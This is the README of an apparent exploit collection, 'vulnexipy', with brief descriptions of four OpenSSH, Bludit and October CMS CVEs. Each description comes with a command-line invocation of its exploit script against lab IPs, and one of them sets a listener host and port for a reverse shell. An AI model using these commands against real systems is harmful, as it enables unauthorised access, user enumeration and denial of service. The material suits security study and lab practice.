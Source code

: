 # vulnexipy

**Vulnerabilities exploitation examples**

## Examples

CVE-2016-6210 - sshd in OpenSSH before 7.3, when SHA256 or SHA512 are used for user password hashing, uses BLOWFISH hashing on a static password when the username does not exist, which allows remote attackers to enumerate users by leveraging the timing difference between responses when a large password is provided.

```bash
python cve_2016_6210.py --target 10.10.6.17 --usernames users.txt
```
CVE-2016-6515 - The auth_password function in auth-passwd.c in sshd in OpenSSH before 7.3 does not limit password lengths for password authentication, which allows remote attackers to cause a denial of service (crypt CPU consumption) via a long string. 

```bash
python cve_2016_6515.py --target 10.10.6.13 --username root
```

CVE-2019-16113 - Bludit 3.9.2 allows remote code execution via bl-kernel/ajax/upload-images.php because PHP code can be entered with a .jpg file name, and then this PHP code can write other PHP code to a ../ pathname.

```bash
python cve_2019_16113.py --url 10.10.6.15 --username admin --password admin --cmd whoami
```

CVE-2017-1000119 - October CMS build 412 is vulnerable to PHP code execution in the file upload functionality resulting in site compromise and possibly other applications on the server.

```bash
python cve_2017_1000119.py --url http://10.10.6.16 -user admin -pswd admin -lhost 10.10.14.16 -lport 4444
```

**For Educational Purposes Only!!!**
**Author takes no responsibility of any damage you cause**

